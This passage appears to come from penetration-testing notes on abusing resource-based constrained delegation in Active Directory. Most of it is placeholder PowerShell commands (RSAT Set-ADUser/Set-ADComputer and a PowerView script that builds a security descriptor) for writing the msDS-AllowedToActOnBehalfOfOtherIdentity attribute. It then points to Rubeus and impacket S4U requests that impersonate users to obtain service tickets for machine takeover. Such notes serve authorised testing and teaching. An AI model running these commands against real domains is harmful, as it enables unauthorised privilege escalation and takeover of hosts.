 Refer to the `[ActiveDirectory] ACL exploiting` note for more information on
how to enumerate and, if necessary, exploit broader control rights to obtain
the right to write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

The `RSAT` `ActiveDirectory` module's `Get-ADComputer` and `Set-ADComputer`
PowerShell cmdlets can be used to modify the
`msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the specified service
or machine account:

```bash
# IDENTITY: DistinguishedName (DN), GUID, SID or SamAccountName
# ADPRINCIPAL: Get-ADUser -Identity <CONTROLLED_SERVICE_ACCOUNT_IDENTITY> / Get-ADComputer -Identity <CONTROLLED_MACHINE_IDENTITY>

Set-ADUser -Identity <TARGET_USER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <CONTROLLED_ADPRINCIPAL | CONTROLLED_PRINCIPAIL_DISTINGUISHED_NAME>
Set-ADUser -Server <DC_IP | DC_HOSTNAME> -Credential <PSCredential> -Identity <TARGET_USER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <CONTROLLED_ADPRINCIPAL | CONTROLLED_PRINCIPAIL_DISTINGUISHED_NAME>

Set-ADComputer -Identity <TARGET_COMPUTER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <CONTROLLED_ADPRINCIPAL | CONTROLLED_PRINCIPAIL_DISTINGUISHED_NAME>
Set-ADComputer -Server <DC_IP | DC_HOSTNAME> -Credential <PSCredential> -Identity <TARGET_COMPUTER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <CONTROLLED_ADPRINCIPAL | CONTROLLED_PRINCIPAIL_DISTINGUISHED_NAME>
```

Alternatively, the `PowerView`'s `Get-DomainComputer` and `Set-DomainObject`
PowerShell cmdlets may be used as well:

```bash
# IDENTITY: DistinguishedName (DN), GUID, SID or SamAccountName

$ControlledObjectSid = Get-DomainObject -Identity <CONTROLLED_SERVICE_ACCOUNT_IDENTITY | CONTROLLED_MACHINE_ACCOUNT_IDENTITY> -Properties objectsid  | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ControlledObjectSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainObject <TARGET_USER_IDENTITY | TARGET_COMPUTER_IDENTITY> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

###### Exploitation process of resource-based constrained delegation

`Rubeus`'s `s4u` module or `impackets`'s `getST.py` Python script can be used
to make `S4U2self` and `S4U2proxy` requests to retrieve a `service ticket`
impersonating the specified user to the service allowing delegation (through
`resource-based constrained delegation`).

For machine takeover, the targeted service(s) can be specified through their
respective `SPN` in the form of `<SERVICE_NAME>/<MACHINE_HOSTNAME>` or
`<SERVICE_NAME>/<MACHINE_FQDN>`.
